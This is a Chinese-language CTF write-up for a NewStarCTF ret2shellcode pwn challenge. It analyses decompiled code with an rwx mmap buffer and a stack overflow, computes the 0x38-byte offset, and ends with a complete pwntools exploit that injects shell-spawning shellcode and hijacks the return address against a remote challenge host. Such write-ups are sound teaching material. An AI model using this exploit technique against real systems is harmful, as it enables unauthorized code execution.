

# PWN challenges 一些非常见题型

## [NewStarCTF 公开赛赛道]ret2shellcode

这是一道ret2shellcode的题型，但是通过checksec发现启用`PIE`保护，不能在`.bss`段写入`shellcode`

> 

查看`IDA`反编译信息

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE v4[40]; // [rsp+0h] [rbp-30h] BYREF
  void *buf; // [rsp+28h] [rbp-8h]

  init(argc, argv, envp);
  buf = mmap((void *)0x233000, 0x1000uLL, 7, 34, -1, 0LL);
  puts("Hello my friend.Any gift for me?");
  read(0, buf, 0x100uLL);
  puts("Anything else?");
  read(0, v4, 0x100uLL);
  puts("Ok.See you!");
  return 0;
}
```

- 第7行`mmap()`创建了一个缓冲区`buf`，大小为`0x1000`字节，重点是拥有`7`权限，即`rwx`权限

- 第9行向缓冲区`buf`中写入数据，总长度`0x100`字节
- 第11行向缓冲区`v4`写入数据，总长度`0x100`字节

根据`IDA`的分析来说，既然`buf`拥有`rwx`权限，那么我们可以向`buf`中写入`shellcode`，但是不能直接溢出`buf`，因为第一个`read()`限制了写入的数据长度`0x100`，该长度远远小于`buf`允许的最大长度`0x1000`，因此需要利用第二个`read()`，第二个`read()`写入的缓冲区`v4`仅有40字节，完全满足溢出条件

同时，`mmap()`函数也指定了缓冲区的内存地址`0x233000`，这一点也可以在`pwndbg`中验证

> 

然后计算从`v4`到`rbp`的长度

> 

从上图可以得出，从`rsp`到`rbp`共`0x30`个字节，加上`rbp`本身8字节，共需要溢出`0x38`个字节，下面是攻击脚本

```py
from pwn import *

context.arch = 'amd64'

buf_addr = 0x233000
shellcode = asm(shellcraft.amd64.sh())
payload = b'A' * 0x38 + p64(buf_addr)

io = remote('node5.buuoj.cn', 28144)
io.sendline(shellcode)
io.recv()
io.sendline(payload)
io.interactive()
```

运行脚本，得到flag

> 